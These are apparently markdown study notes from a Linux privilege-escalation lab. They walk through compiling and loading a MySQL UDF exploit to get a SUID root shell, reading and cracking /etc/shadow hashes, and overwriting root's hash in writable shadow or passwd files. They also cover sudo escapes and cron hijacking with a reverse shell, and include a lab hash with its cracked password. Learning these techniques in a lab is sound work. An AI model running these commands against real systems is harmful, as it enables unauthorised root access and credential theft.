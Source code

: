 # Linux PrivEsc


## Service Exploits
- MySQL is running as root, and the root user for the service doesn't have a apassword assigned
- [This exploit](https://www.exploit-db.com/exploits/1518) takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service
```
Change into the /home/user/tools/mysql-udf directory:

cd /home/user/tools/mysql-udf

Compile the raptor_udf2.c exploit code using the following commands:

gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Connect to the MySQL service as the root user with a blank password:

mysql -u root

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

rm /tmp/rootbash
exit
```

## Weak File Permissions - Readable /etc/shadow
- `/etc/shadow` contains user password hashes and is usually only readable by root user
1. `ls -al /etc/shadow`
2. `cat /etc/shadow`
3. Copy the hash to a file and `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` or `hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt`
- Exercise
    1. `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`
    2. `sha512crypt`
    3. `password123`

## Weak File Permissions - Writable /etc/shadow
1. `ls -al /etc/shadow`
2. `mkpasswd -m sha-512 newpasswordhere`
3. Replace the root hash in `/etc/shadow` with the one generated

## Weak File Permissions - Writable /etc/passwd
- `/etc/passwd` contains information about user accounts
- Usually word-readable, but only writable by root
- Used to contain password hashes, but now they're stored in `/etc/shadow`
1. `ls -al /etc/passwd`
2. `openssl passwd <new password>`
3. Edit the `/etc/passwd` file and place the generated password hash between the first and second colon of the root user's row (replacing the x)
    - Or just create a new user on the file by adding a new line with the username, password hash, and other details

## Sudo - Shell Escape Sequences
- List the programs which sudo allows your user to run with `sudo -l`
- Visit [GTFOBins](https://gtfobins.github.io/) and search for the programs that you're allowed to run

## Sudo - Environment Variables
- Sudo can be configured to inherit certain environment variables from the user's environment
- Check which environment variables are inherited with `sudo -l`

## Cron Jobs - File Permissions
- Cron jobs are programs or scripts which can be scheduled to run at specific times
- View contents of crontab `cat /etc/crontab`
- If you have write access to a script that is scheduled to run, you can edit it and insert a reverse shell

## Cron Jobs - PATH Environment Variable
- If the absolute path of the program that is scheduled to run isn't used, then you can easily create a program of the same name, edit the PATH variable to include the file you created, and wait for the cron job to run your script
